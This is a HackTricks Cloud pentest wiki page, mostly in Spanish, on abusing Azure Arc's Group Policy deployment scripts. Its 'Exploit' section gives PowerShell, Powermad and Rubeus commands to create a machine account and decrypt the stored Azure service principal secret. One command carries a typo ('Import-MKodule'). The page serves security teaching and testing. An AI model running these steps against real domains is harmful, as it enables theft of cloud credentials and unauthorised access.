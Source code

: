 # Az - Arc vulnerable GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifying the Issues

Azure Arc permite la integración de nuevos servidores internos (servidores de dominio unidos) en Azure Arc utilizando el método de Objeto de Directiva de Grupo. Para facilitar esto, Microsoft proporciona un kit de herramientas de implementación necesario para iniciar el procedimiento de incorporación. Dentro del archivo ArcEnableServerGroupPolicy.zip, se pueden encontrar los siguientes scripts: DeployGPO.ps1, EnableAzureArc.ps1 y AzureArcDeployment.psm1.

Cuando se ejecuta, el script DeployGPO.ps1 realiza las siguientes acciones:

1. Crea la GPO de Incorporación de Servidores Azure Arc dentro del dominio local.
2. Copia el script de incorporación EnableAzureArc.ps1 en el recurso compartido de red designado creado para el proceso de incorporación, que también contiene el paquete de instalación de Windows.

Al ejecutar este script, los administradores del sistema deben proporcionar dos parámetros principales: **ServicePrincipalId** y **ServicePrincipalClientSecret**. Además, requiere otros parámetros como el dominio, el FQDN del servidor que aloja el recurso compartido y el nombre del recurso compartido. También se deben proporcionar más detalles como el ID del inquilino, el grupo de recursos y otra información necesaria al script.

Se genera un secreto cifrado en el directorio AzureArcDeploy en el recurso compartido especificado utilizando cifrado DPAPI-NG. El secreto cifrado se almacena en un archivo llamado encryptedServicePrincipalSecret. La evidencia de esto se puede encontrar en el script DeployGPO.ps1, donde el cifrado se realiza llamando a ProtectBase64 con $descriptor y $ServicePrincipalSecret como entradas. El descriptor consiste en los SIDs del grupo de Computadoras de Dominio y Controladores de Dominio, asegurando que el ServicePrincipalSecret solo pueda ser descifrado por los Controladores de Dominio y grupos de seguridad de Computadoras de Dominio, como se indica en los comentarios del script.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Tenemos las siguientes condiciones:

1. Hemos penetrado con éxito la red interna.
2. Tenemos la capacidad de crear o asumir el control de una cuenta de computadora dentro de Active Directory.
3. Hemos descubierto un recurso compartido de red que contiene el directorio AzureArcDeploy.

Hay varios métodos para obtener una cuenta de máquina dentro de un entorno de AD. Uno de los más comunes es explotar la cuota de cuentas de máquina. Otro método implica comprometer una cuenta de máquina a través de ACLs vulnerables o varias otras configuraciones incorrectas.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Una vez que se obtiene una cuenta de máquina, es posible autenticarse utilizando esta cuenta. Podemos usar el comando runas.exe con la bandera netonly o usar pass-the-ticket con Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Al tener el TGT para nuestra cuenta de computadora almacenado en memoria, podemos usar el siguiente script para descifrar el secreto del principal de servicio.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternativamente, podemos usar [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

En este punto, podemos recopilar la información restante necesaria para conectarnos a Azure desde el archivo ArcInfo.json, que se almacena en el mismo recurso compartido de red que el archivo encryptedServicePrincipalSecret. Este archivo contiene detalles como: TenantId, servicePrincipalClientId, ResourceGroup y más. Con esta información, podemos usar Azure CLI para autenticarnos como el service principal comprometido.

## Referencias

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

